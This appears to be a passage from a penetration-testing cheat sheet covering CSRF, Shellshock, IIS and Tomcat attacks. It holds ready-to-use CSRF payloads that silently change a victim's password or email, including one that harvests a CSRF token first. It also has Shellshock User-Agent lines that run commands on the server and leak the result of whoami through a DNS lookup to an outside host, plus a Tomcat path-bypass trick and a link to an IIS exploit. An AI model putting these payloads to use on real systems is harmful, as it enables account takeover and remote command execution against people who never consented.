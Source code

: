 #### CSRF
- POST
```html
<form id="myForm" name="myForm" action="/change_pass.php" method="POST">
<input type=hidden name="password" id="password" value="meowmeow"/>
<input type=hidden name="confirm_password" id="confirm_password" value="meowmeow"/>
<input type=hidden name="submit" id="submit" value="submit"/>
<script>document.createElement('form').submit.call(document.getElementById('myForm'))</script>
```

- Get CSRF Token Before POST
```javascript
function post_data(csrf_token){
    var xhr = new XMLHttpRequest();
    xhr.open("POST", '/my-account/change-email', true);
    xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhr.send("email=meow%40meow.meow&csrf="+csrf_token);
}

function get_csrf() {
    var re = /[A-Za-z0-9]{32}/g;
    csrf_token = this.responseText.match(re)[0];
    post_data(csrf_token);
}

var get_csrf_request = new XMLHttpRequest();
get_csrf_request.addEventListener("load", get_csrf);
get_csrf_request.open("GET", "https://xxx/my-account");
get_csrf_request.send();
```

### Server
#### Apache
- Default log path
    - `/var/log/apache2/access.log`
- Shell Shock
    - Exist some path like `/cgi-bin/*.sh`
        - `dirsearch.py -u http://{IP}/cgi-bin  -e cgi`
    - Add `() { :;}; echo; /usr/bin/id` to User-Agent
        - Must use Absolute path
        - `User-Agent: (){ :; }; /bin/ping -c 1 {MY_IP}`
        - `USer-Agent: () { :; }; /usr/bin/nslookup $(whoami).meow.org`
            - DNS Only
    - nmap test
        - `nmap {IP} -p {PORT} --script=http-shellshock --script-args uri=/cgi-bin/{FILE_NAME}.cgi`
- Default config path
    - `/etc/httpd/conf/httpd.conf`
#### Nginx
#### IIS
- Default web root path
    - `C:\inetpub\wwwroot`
- IIS 6.0
    - [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)
        - Can only run once!!
#### Tomcat
- Tomcat Path
    - `/manager/status/all`
    - `/admin/dashboard`
- Path Bypass
    - With `/..;/`
        - e.g. `/manager/status/..;/html/upload`
### PHP